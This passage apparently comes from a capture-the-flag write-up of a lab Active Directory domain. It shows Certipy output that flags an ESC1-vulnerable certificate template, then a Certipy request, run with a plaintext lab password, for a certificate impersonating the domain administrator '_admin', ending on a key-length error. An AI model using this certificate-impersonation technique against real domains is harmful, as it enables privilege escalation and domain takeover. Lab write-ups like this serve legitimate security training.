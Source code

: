```
    Template Name                       : ShibuyaWeb
    Display Name                        : ShibuyaWeb
    Certificate Authorities             : shibuya-AWSJPDC0522-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : True
    Any Purpose                         : True
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : None
    Private Key Flag                    : ExportableKey
    Extended Key Usage                  : Any Purpose
                                          Server Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 100 years
    Renewal Period                      : 75 years
    Minimum RSA Key Length              : 4096
    Permissions
      Enrollment Permissions
        Enrollment Rights               : SHIBUYA.VL\t1_admins
                                          SHIBUYA.VL\Domain Admins
                                          SHIBUYA.VL\Enterprise Admins
      Object Control Permissions
        Owner                           : SHIBUYA.VL\_admin
        Write Owner Principals          : SHIBUYA.VL\Domain Admins
                                          SHIBUYA.VL\Enterprise Admins
                                          SHIBUYA.VL\_admin
        Write Dacl Principals           : SHIBUYA.VL\Domain Admins
                                          SHIBUYA.VL\Enterprise Admins
                                          SHIBUYA.VL\_admin
        Write Property Principals       : SHIBUYA.VL\Domain Admins
                                          SHIBUYA.VL\Enterprise Admins
                                          SHIBUYA.VL\_admin
    [!] Vulnerabilities
      ESC1                              : 'SHIBUYA.VL\\t1_admins' can enroll, enrollee supplies subject and template allows client authentication
      ESC2                              : 'SHIBUYA.VL\\t1_admins' can enroll and template can be used for any purpose
      ESC3                              : 'SHIBUYA.VL\\t1_admins' can enroll and template has Certificate Request Agent EKU set

```
So let just continue the attack with certipy and get Domain Admin user since there is ESC1, right? But remember the real DA is not *Administrator*, it is *_admin*.

![image](https://github.com/user-attachments/assets/4623ed26-9082-4db3-8ce9-7560c6a4fcd2)

```
proxychains certipy req -u nigel.mills@shibuya.vl -dc-ip 10.10.114.33 -ns 10.10.114.33 -p Sail2Boat3 -ca shibuya-AWSJPDC0522-CA -template ShibuyaWeb -upn '_admin@shibuya.vl'
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.10.114.33:445  ...  OK
[-] Got error while trying to request certificate: code: 0x80094811 - CERTSRV_E_KEY_LENGTH - The public key does not meet the minimum size required by the specified certificate template.
[*] Request ID is 4
Would you like to save the private key? (y/N) N
```